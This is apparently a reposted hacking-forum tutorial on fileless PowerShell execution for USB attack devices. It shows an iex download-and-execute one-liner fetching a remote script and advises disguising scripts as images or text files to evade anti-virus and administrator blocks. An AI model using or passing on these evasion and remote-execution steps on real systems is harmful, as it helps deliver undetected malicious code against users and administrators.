 ## Running PowerShell scripts in memory
###### Author: Dave-ee Jones
###### Subject: PowerShell
###### Original post: [Link](https://forums.hak5.org/topic/41729-running-powershell-in-memory/)

### DISCLAIMER:
I don't claim to know everything in this area, I am just giving you a general idea and some resources.

So I've seen lots of PowerShell-based scripts (for the Ducky and BB especially), and there are a few people talking about running PS scripts in memory so that most free anti-virus software can't detect the script. Since most newbies don't know how to do this (and even some elderbies), I figured I would give you a few links and a brief explanation myself.

So, without further ado, let's get started!

### First, let's consider; what does loading a script into memory mean?
Well, we all know how variables and functions work, right?
```
var1 = "hello there!"
```
When this bit of code executes it has just told the computer 'Okay, make sure you remember this, now. Var1 equals "hello there!"' and the computer has gone 'K, boss!' and puts it into it's memory, just like we would with a bit of information we've been given. Functions are the same. In Lua (using Lua as an example because it's the language I'm most familiar with) I could do something like this:
```
local var = "hello world!"

local func = function()
	print(var)
end
```
This has put the function 'func' and variable 'var' into memory. 'Func' is executable, so when we call the function like so it will do like so:
```
func()

OUTPUT:
hello world!
```
So we've just executed a function that was first placed in memory, but SOURCED from the script (text file) itself. We can do the same with scripts. We can load a script into a variable, allowing us to call it from memory.

### Okay, that's great, but how do I load a *script* into a variable - and how am I supposed to run it?

First off, we have to remember to store the script outside of the machine we're running the script on. THEN we need to use an amazing PowerShell module called 'Invoke-Expression', which allows us to execute strings. You can see where this is going, right?

If we're getting the script from a website or a webserver, we can do something like this:
```
$url = ‘https://www.justaprank.com/scripts/script1.ps1′
iex ((New ObjectNet.WebClient).DownloadString($url))
```
 This will download the whole contents of the 'script1.ps1' file, allowing us to execute it with 'iex' which is the shorthand alias of 'Invoke-Expression', NOT Internet Explorer.

If we're getting the script from a file hosted on an SMB server, USB (Ducky/BB) or outside source, we can do something like this:
```
iex (Get-Content pathtoscript\script1.txt)
```
The beauty about both of these ways is we don't have to have a specific '.ps1' extension on it, allowing us to load all kinds of scripts that can be disguised as pictures, video, text files etc.

**IN FACT** it's better NOT to have a '.ps1' extension because there are people (especially Domain Administrators) who block '.ps1' scripts from being read/executed, so having a different extension helps greatly, even if loading from an outside source (web server, USB).

So I hope this has helped some of you understand what we mean by running a script in memory, and how powerful it can be! Keep in mind that there are still lots of Anti-virus software that will detect stuff like this, but, unfortunately, most of it is paid software (money-making losers who think money > security..).

Also keep in mind that there are plenty of other ways of storing scripts in memory (one being using C#), but these are (arguably) the easiest.

### And now, resources!
- [Main Resource](https://securingtomorrow.mcafee.com/business/fileless-malware-execution-with-powershell-is-easier-	than-you-may-realize)
- [Code Execution](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)
	- By [PowerShellMafia](https://github.com/PowerShellMafia)
- [Clymber](https://clymb3r.wordpress.com/)
- [Defcon 21](https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf)
